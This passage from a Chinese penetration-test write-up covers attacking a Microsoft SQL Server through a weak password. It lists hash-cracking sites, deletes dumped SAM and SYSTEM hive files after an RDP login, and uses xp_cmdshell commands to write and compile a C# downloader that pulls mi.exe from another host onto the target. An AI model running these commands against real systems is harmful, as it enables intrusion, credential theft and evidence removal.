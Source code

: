 4、LM hash和NTLM hash可在线破解:  
[cmd5](https://www.cmd5.com/)  
[LM/NTLM hash在线破解](https://www.objectif-securite.ch/en/ophcrack.php)  
5、破解Administrator密码成功后，远程桌面登录，提取成功，删除文件sam.hive，system.hive。  

### \#0x06 Windows cmd(xp_cmdshell)命令行上传下载方法
方法有很多，限制条件和使用条件各不相同，这里介绍两种在本次渗透过程中用到的两种。  
#### 一、利用.NET环境，完成文件的上传下载
##### （一）使用C#完成文件下载（下载文件mi.exe到目标机器） 
1、把C#文件中的回车换行去掉，把代码写成一行，通过echo命令把代码写入c:\1.cs  
``` 
exec master..xp_cmdshell 'echo using System.Net;namespace downloader{class Program{static void Main(string[] args){WebClient client = new WebClient();string URLAddress = @"http://172.30.10.49/mi.exe";string receivePath = @"C:\";client.DownloadFile(URLAddress, receivePath+System.IO.Path.GetFileName(URLAddress));}}} > c:\1.cs'
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/echo%20c%23%20to%20file.jpeg?raw=true)

2、编译C#文件为可执行文件  
利用csc.exe编译C#文件，csc.exe的所在位置与 .NET Framework的版本有关，根据实际情况确定（可通过xp_cmdshell执行dir命令来确定csc.exe的位置。  
```
exec master..xp_cmdshell 'C:\Windows\Microsoft.NET\Framework\v1.1.4322\csc.exe /out:C:\download.exe C:\1.cs'
```
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/create%20download_exe.jpeg?raw=true)
